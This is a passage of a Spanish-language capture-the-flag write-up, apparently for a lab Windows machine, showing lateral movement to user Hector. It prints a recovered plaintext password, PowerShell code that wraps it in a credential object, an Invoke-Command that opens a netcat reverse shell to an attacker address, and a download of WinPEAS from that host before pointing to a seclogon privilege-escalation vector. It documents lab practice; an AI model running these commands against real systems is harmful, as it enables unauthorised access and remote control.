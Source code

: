 	![23]
	
	Para esto, primero debemos hacer un tratamiento de estas credenciales que hemos obtenido. Todo este proceso debe hacerse desde una terminal de powershell. Como con e netcat obtuvimos una cmd, solo basta con escribir **powershell** para acceder a esta terminal:
	
	```
	$user = 'Fidelity\Hector'  //Este comando contempla HOST\USUARIO, donde el host puede encontrarse con el comando hostname
	$password = 'l33th4x0rhector'
	$secpw = ConvertTo-SecureString $password -AsPlainText -Force
	
	$cred = New-Object System.Management.Automation.PSCredential $user,$secpw
	```
	
	Ahora con estas nuevas credenciales, solo debemos ejecutar un comando. Intentaremos un **whoami** para corroborar que todo funcione correctamente:
	
	```
	Invoke-Command -ComputerName localhost -Cred $cred -ScriptBlock {whoami}
	control\hector
	```
	
	Viendo que podemos ejecutar comandos como el usuario **Hector**, procedemos a usar el netcat que ya hemos subido al sistema para, de nueva cuenta, entablarnos otra reverse shell ahora como este usuario:
	
	``Invoke-Command -ComputerName localhost -Cred $cred -ScriptBlock {C:\\inetpub\\wwwroot\\uploads\\nc.exe -e cmd 10.10.14.8 443}``
	
	![24]
	
	![25]
	
+ Ya como el usuario Hector, podemos visualizar la flag de usuario:
	
	![26]
	
	Vemos que este usuario no cuenta con muchos privilegios dentro del sistema, lo que limita los vectores de ataque a probar para escalar privilegios. Ejecutamos un WinPeas en el sistema para enumerar en busca de posibles vectores de ataque. Para ello, nos valemos de nueva cuenta de powershell y el Invoke-WebRequest para subir el binario al sistema y poder ejecutarlo:
	
	``iwr -Uri http://10.10.14.8/winpeas.exe -OutFile C:\Users\Hector\Desktop\winpeas.exe``
	
	Empleamos la carpeta Desktop ya que el usuario tiene permisos de escritura aquí. Ejecutamos el WinPeas.
	
	![27]
	
+ Salta a la vista una serie de registros marcados con rojo, color que WinPeas usa para indicar algo que puede ser aprovechado como vulnerabilidad. Son la mayoría de registros del sistema, por no decir que todos. Uno es importante, ya que permite escalar privilegios de manera sencilla: **seclogon**.

	![28]
	